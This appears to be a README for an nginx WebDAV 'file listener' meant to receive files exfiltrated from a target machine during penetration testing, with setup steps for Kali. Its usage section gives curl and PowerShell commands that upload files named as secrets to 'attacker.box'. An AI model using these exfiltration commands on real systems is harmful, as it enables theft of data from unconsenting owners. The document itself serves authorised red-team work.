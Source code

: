 # nginx File Listener
This is an nginx configuration that you can use to set up a server to receive files from a
target over HTTP.  Most targets can talk out over HTTP, so this helps if you have limited options
to transfer files from a target.

## Requirements
You will need an nginx server set up with the WebDAV module built in.  Kali Rolling (as of September 2018) has this module built in.  If you get an error from nginx that ```dav_methods``` is not valid, you will likely need to build a version of nginx that has this module built in.  You can use the ```--with-http_dav_module``` configuration parameter to build the module in at compile time:

```bash
./configure --with-http_dav_module
```

## Installation
1.  Create a directory to receive your uploads in and make sure the user running nginx has permission to write to this folder.  nginx runs as the ```www-data``` user on Kali.  Make sure line 40 of nginx_file_listener reflects the path you choose.
2.  Modify lines 28 and 31 if you want to change the port that the server listens on (default is 8001).
3.  Copy nginx_file_listener to /etc/nginx/sites-available.
4.  Create a symlink to nginx_file_listener in /etc/nginx/sites-enabled.
    ```bash
    ln -s /etc/nginx/sites-available/nginx_file_listener /etc/nginx/sites-enabled
    ```
5.  Restart nginx
    ```bash
    systemctl restart nginx
    ```
6.  Make sure nginx is listening on the port you chose:
    ```bash
    netstat -anp | grep 8001

    # You can also use ss
    ss -tap | grep 8001
    ```

## Usage
You can upload files to the server using curl from a Linux box:
```bash
curl --upload-file <file_name> http://<server_IP>:<port>/<path>

# Example
curl --upload-file awesome_secrets http://attacker.box:8001/secretfiles
```

The example will upload the file awesome_secrets to /var/www/uploads/secretfiles/awesome_secrets on the server.

On Windows, you can use the following bit of PowerShell:
```powershell
Invoke-RestMethod -Uri http://<server_IP>:<port>/<path>/<file name> -Method Put -InFile <path to file>

# Example
Invoke-RestMethod -Uri http://attacker.box:8001/secretfiles/awesomesecrets -Method Put -InFile awesomesecrets
```
